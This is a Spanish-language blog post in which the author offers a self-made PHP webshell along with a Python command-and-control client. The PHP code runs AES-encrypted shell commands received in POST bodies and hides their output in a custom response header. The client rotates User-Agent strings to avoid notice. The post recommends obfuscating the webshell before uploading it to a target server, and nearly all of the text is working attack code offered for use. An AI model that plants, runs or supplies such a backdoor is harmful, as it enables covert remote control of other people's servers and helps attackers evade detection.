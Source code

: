 # WebShell V2.0

Os presento una pequeña herramienta que os podría ser útil.

Se trata de una webshell en php creada por mi. 

```php
<?php
$secret = 'W3lc0m3';  // Clave secreta
$key = hash('sha256', $secret, true); 

$input = json_decode(file_get_contents('php://input'), true);

if (!$input) {
    exit;
}

$s = $input['s'];  
$command_encoded = $input['_'];  

$decoded_secret = decrypt_data($s, $key);
if ($decoded_secret === $secret) {
    $command = decrypt_data($command_encoded, $key);    
    if ($command) {
        $output = `$command`;  
        if ($output === null) {
            $output_encrypted = encrypt_data('Error: Fallo al ejecutar el comando.', $key);
            header('x: ' . $output_encrypted);
        } else {
            $output_encrypted = encrypt_data($output, $key);
            header('x: ' . $output_encrypted);
        }
    }
} else {
    $error_encrypted = encrypt_data('Secret mismatch', $key);
    header('x: ' . $error_encrypted);
}

// Función para descifrar los datos
function decrypt_data($data, $key) {
    $data = base64_decode($data);
    $iv = substr($data, 0, 16); 
    $ciphertext = substr($data, 16); 
    $decrypted_data = openssl_decrypt($ciphertext, 'aes-256-cbc', $key, OPENSSL_RAW_DATA, $iv);
    if ($decrypted_data === false) {
        return null;
    }
    return $decrypted_data;
}

function encrypt_data($data, $key) {
    $iv = openssl_random_pseudo_bytes(16);  
    $encryptedData = openssl_encrypt($data, 'aes-256-cbc', $key, OPENSSL_RAW_DATA, $iv);
    $result = base64_encode($iv . $encryptedData);      
    return $result;
}
?>
```

Esta pequeña webshell funciona de la siguiente manera:

En el código se ha fijado en una variable el valor de un “secreto”, en este caso `W3lc0m3`. 
El funcionamiento del script solo funcionara si se envía a través de un parámetro llamado “s” el secreto cifrado y encodeado en base64, adicionalmente, tambien hay que enviar el comando a ejecutar cifrado y encodeado en base64, de la siguiente forma:

![Untitled](/assets/images/WebShell/1.png)

Esta petición ejecutara el comando `whoami`, el servidor añadirá una nueva cabecera en la respuesta del servidor llamada “x” con el contenido del comando ejecutado cifrado y encodeado en base64.

De esta forma somos “un poco” mas sigilosos y no hacemos tanto ruido en el servidor. 

Lo recomendable a realizar antes de subir el archivo es ofuscarlo en paginas como:

`https://www.gaijin.at/en/tools/php-obfuscator`
`https://php-minify.com/php-obfuscator/`

Una vez subido la webshell con éxito al servidor. Podemos utilizar el siguiente script de Python para ejecutar comandos cómodamente.

```python
import base64, signal, argparse, os, random 
import requests
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad, unpad
import readline  
import hashlib


HISTORY_FILE = '.command_history'  # Archivo para almacenar el historial de comandos

# Cargar historial de comandos al iniciar el programa
if os.path.exists(HISTORY_FILE):
    readline.read_history_file(HISTORY_FILE)

# Guardar el historial de comandos al cerrar el programa
import atexit
atexit.register(readline.write_history_file, HISTORY_FILE)

# Lista de User-Agent comunes
USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36 Edge/91.0.864.59",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Firefox/89.0",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
]

class Color:
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'

def def_hundler(sig, frame):
    print(Color.YELLOW + "[!]Saliendo..")
    exit(1)

signal.signal(signal.SIGINT, def_hundler)

# Función para derivar la clave de 32 bytes usando SHA256
def derive_key_from_secret(secret_key):
    return hashlib.sha256(secret_key.encode('utf-8')).digest()

# Función para cifrar los datos (AES-256-CBC)
def encrypt_data(data, key):
    key = derive_key_from_secret(key)  
    iv = get_random_bytes(16)  
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(data.encode('utf-8'), AES.block_size))
    encrypted_data = base64.b64encode(iv + ciphertext).decode('utf-8')  
    return encrypted_data

# Función para descifrar los datos (AES-256-CBC)
def decrypt_data(encrypted_data, key):
    key = derive_key_from_secret(key)  
    encrypted_data = base64.b64decode(encrypted_data)  
    iv = encrypted_data[:16] 
    ciphertext = encrypted_data[16:]  
    cipher = AES.new(key, AES.MODE_CBC, iv)
    try:
        decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size).decode('utf-8')
        return decrypted_data
    except (ValueError, KeyError) as e:
        return None

def main(url, secret, cmd, proxy):
    # Cifrar el secreto y el comando
    encrypted_secret = encrypt_data(secret, secret)  
    encrypted_command = encrypt_data(cmd, secret)  
    payload = {
        "s": encrypted_secret,
        "_": encrypted_command
    }
    headers = {
        "Content-Type": "application/json",
        "User-Agent": random.choice(USER_AGENTS)  
    }
    try:
        r = requests.post(url, json=payload, headers=headers, proxies=proxy, verify=False)
        if r.status_code == 200:
            if 'x' in r.headers:
                encrypted_response = r.headers['x']                 
                decrypted_response = decrypt_data(encrypted_response, secret)
                if decrypted_response:
                    print(Color.GREEN + "Solicitud enviada correctamente")
                    print(Color.BLUE + f"Comando ejecutado:\n{decrypted_response}")
                else:
                    print(Color.RED +"Error: No se pudo descifrar la respuesta.")
            else:
                print(Color.RED +"Error: No 'x' header found in response.")
        else:
            print(Color.RED +f"Error al enviar la solicitud. Código de estado: {r.status_code}")
        
    except requests.exceptions.RequestException as e:
        print(f"Error al realizar la solicitud: {e}")

def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-secret SECRET] \n\n'
    ussage += '[+] Ejemplos:\n'
    ussage += '\t' + fNombre + ' -url https://wordpress.com/ -secret secret\n'
    return ussage

def arguments():
    parser = argparse.ArgumentParser(usage=usage(), description="Python3 C2")
    parser.add_argument('-url', dest='url', type=str, help='URL')
    parser.add_argument('-secret', dest='secret', type=str, default=False, help='Secreto')
    parser.add_argument('-proxy', dest='proxy', type=str, default=False, help='Proxy')
    return parser.parse_args()

if __name__ == '__main__':
    args = arguments()
    proxy = {
        "http": args.proxy,
        "https": args.proxy,  
    }

    while True:
        try:
            cmd = input(Color.RED + "> ")
            main(args.url, args.secret, cmd, proxy)
        except EOFError:
            print("\nSaliendo...")
            break

```

El uso del script es el siguiente:

`python.exe ./webshell.py -url "http://localhost/ofuscated.php" -secret W3lc0m3!`

![Untitled](/assets/images/WebShell/2.png)

![Untitled](/assets/images/WebShell/3.png)